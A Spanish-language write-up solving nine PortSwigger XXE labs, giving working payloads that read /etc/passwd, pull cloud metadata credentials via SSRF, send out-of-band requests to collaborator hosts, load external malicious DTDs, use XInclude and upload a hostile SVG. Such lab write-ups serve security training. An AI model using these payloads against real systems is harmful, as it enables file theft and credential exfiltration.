








# XML external entity (XXE) injection - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

## Índice

  * [1. Lab: Exploiting XXE using external entities to retrieve files](#1-lab-exploiting-xxe-using-external-entities-to-retrieve-files)
  * [2. Lab: Exploiting XXE to perform SSRF attacks](#2-lab-exploiting-xxe-to-perform-ssrf-attacks)
  * [3. Lab: Blind XXE with out-of-band interaction](#3-lab-blind-xxe-with-out-of-band-interaction)
  * [4. Lab: Blind XXE with out-of-band interaction via XML parameter entities](#4-lab-blind-xxe-with-out-of-band-interaction-via-xml-parameter-entities)
  * [5. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD](#5-lab-exploiting-blind-xxe-to-exfiltrate-data-using-a-malicious-external-dtd)
  * [6. Lab: Exploiting blind XXE to retrieve data via error messages](#6-lab-exploiting-blind-xxe-to-retrieve-data-via-error-messages)
  * [7. Lab: Exploiting XXE to retrieve data by repurposing a local DTD](#7-lab-exploiting-xxe-to-retrieve-data-by-repurposing-a-local-dtd)
  * [8. Lab: Exploiting XInclude to retrieve files](#8-lab-exploiting-xinclude-to-retrieve-files)
  * [9. Lab: Exploiting XXE via image file upload](#9-lab-exploiting-xxe-via-image-file-upload)
  * [CONCLUSION](#conclusion)

## 1. Lab: Exploiting XXE using external entities to retrieve files

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

Para resolver el laboratorio, inyecte una entidad externa XML para recuperar el contenido del /etc/passwdarchivo.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Y Lo probamos en el paquete para verificar si existe una respuesta válida.


Ahora, vamos al home para verificar que completamos el laboratorio.


## 2. Lab: Exploiting XXE to perform SSRF attacks

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

El servidor de laboratorio está ejecutando un punto final de metadatos EC2 (simulado) en la URL predeterminada, que es http://169.254.169.254/. Este punto final se puede utilizar para recuperar datos sobre la instancia, algunos de los cuales pueden ser confidenciales.

Para resolver el laboratorio, aproveche la vulnerabilidad XXE para realizar un ataque SSRF que obtenga el secret access key de IAM del servidor desde el punto final de metadatos EC2.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Y enviamos el paquete, observamos lo siguiente:


Recibimos como respuesta el string **latest**, lo agregamos a la url de la ip a la que queremos acceder y obtenemos la siguiente respuesta:

```
PAYLOAD: <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
RESPUESTA: "Invalid product ID: meta-data"
```

Y volvemos a agregar la respuesta en la url del payload y obtenemos la siguiente respuesta:

```
"Invalid product ID: iam"
```

Y seguimos agregando todos los que nos sugiere hasta tener el siguiente payload.

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

El cual nos devuelve la siguiente respuesta:


```
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-07T16:07:36.536751Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "mxjF9Xea2bZ9FpdxtCCU",
  "SecretAccessKey" : "wORR4gS3GaX0QzbXqFs7qAk7AyQkFvzYCVc48DDx",
  "Token" : "jy7FOMsOs523ituXLzFHQKLJsNYKdRfrCxkJFWJOqW6e9INmJ9fyn8dGi3olUWxkfkSXLdIuCFRdB6K03D56Rnrq0XYBSYqGrNt4gulNlfrSkMSxzsBwl8bzPSTXI2lTVjYAFgXbeB1U1VBPIiW243nEzoqsmUi4Zs8ZhqAqIsQ6hoZ30EMhrtbFxFNzdZMssvglji6r4CbsPxBxDb4yseYBZ3nLBUXEFIG47pXmQCwlXMfnLzKcRkBCRHSl2Dg2",
  "Expiration" : "2027-02-06T16:07:36.536751Z"
}"
```

Y los que nos piden es el **secret access key** el cual sería **wORR4gS3GaX0QzbXqFs7qAk7AyQkFvzYCVc48DDx**. Entramos al home del laboratorio desde el navegador para verificar que completamos el laboratorio.


## 3. Lab: Blind XXE with out-of-band interaction

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML pero no muestra el resultado.

Puede detectar la vulnerabilidad ciega XXE activando interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, use una entidad externa para hacer que el analizador XML emita una búsqueda de DNS y una solicitud HTTP a Burp Collaborator.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Entonces ahora lo que haremos será inciar el **Burp collaborator** y realizar una consulta con el siguiente payload basado en la estructura XML del paquete.

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://geyl1g8xhwzi53mt93v09dqgg7mxam.burpcollaborator.net"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```


Como podemos ver, se realizó la consulta al sitio web generado con Burp Collaborator, aunque no existió ninguna respuesta por lado del servidor mas que el error de **Invalid product ID**. Entramos al home del laboratorio desde el navegador para verificar que completamos el laboratorio.


## 4. Lab: Blind XXE with out-of-band interaction via XML parameter entities

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML, pero no muestra valores inesperados y bloquea las solicitudes que contienen entidades externas regulares.

Para resolver el laboratorio, use una entidad de parámetro para hacer que el analizador XML emita una búsqueda de DNS y una solicitud HTTP a Burp Collaborator.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Entonces ahora lo que haremos será inciar el **Burp collaborator** y realizar una consulta con el siguiente payload basado en la estructura XML del paquete.

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://n6uo0bl4jzbk904jv3ja6ah4ivolca.burpcollaborator.net"> %xxe; ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```


Como podemos ver, se realizó la consulta al sitio web generado con Burp Collaborator, aunque no existió ninguna respuesta por lado del servidor mas que el error de **Parsing error**. Entramos al home del laboratorio desde el navegador para verificar que completamos el laboratorio.


## 5. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML pero no muestra el resultado.

Para resolver el laboratorio, exfiltra el contenido del archivo /etc/hostname.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Así que ahora iremos al **Exploit Server** y realizamos la siguiente configuracion.


Y le damos en botón **Store**. Configuramos nuestro payload en el repeater, al siguiente valor:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://ac7a1f721e5094c980c1385d016c00bd.web-security-academy.net/malicious.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```


Ahora, en la seccion de **Exploit Server** hacemos clic en **Access Log**.


Entonces obtenemos que el contenido de **/etc/hostsname** es **f681f51b2be3**. Enviamos el valor para completar el laboratorio.


## 6. Lab: Exploiting blind XXE to retrieve data via error messages

```
Este laboratorio tiene una función "Chack Stock" que analiza la entrada XML pero no muestra el resultado.

Para resolver el laboratorio, use un DTD externo para activar un mensaje de error que muestre el contenido del archivo /etc/passwd.

El laboratorio contiene un enlace a un servidor de exploits en un dominio diferente donde puede alojar su DTD malicioso.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Así que ahora iremos al **Exploit Server** y realizamos la siguiente configuracion.


Y le damos en botón **Store**. Configuramos nuestro payload en el repeater, al siguiente valor:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://acc61f931f0eeb97800f86cf01820027.web-security-academy.net/malicious.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```


Entonces, como podemos ver, hemos obtenido el contenido del fichero **/etc/passwd** a travéz de un mensaje de error. Ahora, vamos al home para verificar que completamos el laboratorio.


## 7. Lab: Exploiting XXE to retrieve data by repurposing a local DTD

```
Este laboratorio tiene una función "Check Stock" que analiza la entrada XML pero no muestra el resultado.

Para resolver el laboratorio, active un mensaje de error que contenga el contenido del archivo /etc/passwd.

Deberá hacer referencia a un archivo DTD existente en el servidor y redefinir una entidad a partir de él.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Primero importaremos una **DTD** local, para ver que funcione todo bien agregando el siguiente payload,

```
<!DOCTYPE foo [<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">%local_dtd;]>
```



Entonces podemos ver que no genera ningun error, entonces el **DTD** es válido. Ahora intentaremos recuperar el contenido del fichero **/etc/passwd** usando el siguiente payload.

```
<!DOCTYPE foo [<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"><!ENTITY % ISOtech '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"><!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">&#x25;eval;&#x25;error;'>%local_dtd;]>
```



Entonces, como podemos ver, hemos obtenido el contenido del fichero **/etc/passwd** a travéz de un mensaje de error. Ahora, vamos al home para verificar que completamos el laboratorio.



## 8. Lab: Exploiting XInclude to retrieve files

```
Este laboratorio tiene una función "Check stock" que incorpora la entrada del usuario dentro de un documento XML del lado del servidor que luego se analiza.

Como no controla todo el documento XML, no puede definir una DTD para lanzar un ataque XXE clásico .

Para resolver el laboratorio, inyecte una XIncludedeclaración para recuperar el contenido del archivo /etc/passwd.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.


Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente que colocaremos en el parametro **productId**.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```



Ahora, vamos al home para verificar que completamos el laboratorio.



## 9. Lab: Exploiting XXE via image file upload

```
Este laboratorio permite a los usuarios adjuntar avatares a los comentarios y utiliza la biblioteca Apache Batik para procesar archivos de imagen de avatar.

Para resolver el laboratorio, cargue una imagen que muestre el contenido del archivo /etc/hostname después de procesarlo. Luego, use el botón "Enviar solución" para enviar el valor del nombre de host del servidor.
```

Preparamos un payload, el cual sería el siguiente:

```
└──╼ $cat imagen.svg 
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Entonces, entramos a un post del laboratorio y enviamos el fichero **imagen.svg**. Mientras que interceptamos todos los paquetes en segundo plano. Y luego al volver a ver el comentario nos encontramos con lo siguiente:



Entonces hacemos clic en la imagen y la deslizamos a otra ventana y nos devuelve lo siguiente:



Entonces el contenido de **/etc/hostname** es **b59d1a880a43**, escribimos el hostname en el home y completamos el laboratorio.



## CONCLUSION

La vulnerabilidad XXE es muy interesante porque nos permite leer ficheros del computador y tambien poder realizar un ataque de tipo SSRF que ya analizamos en el anterior post que tiene consecuencias muy criticas.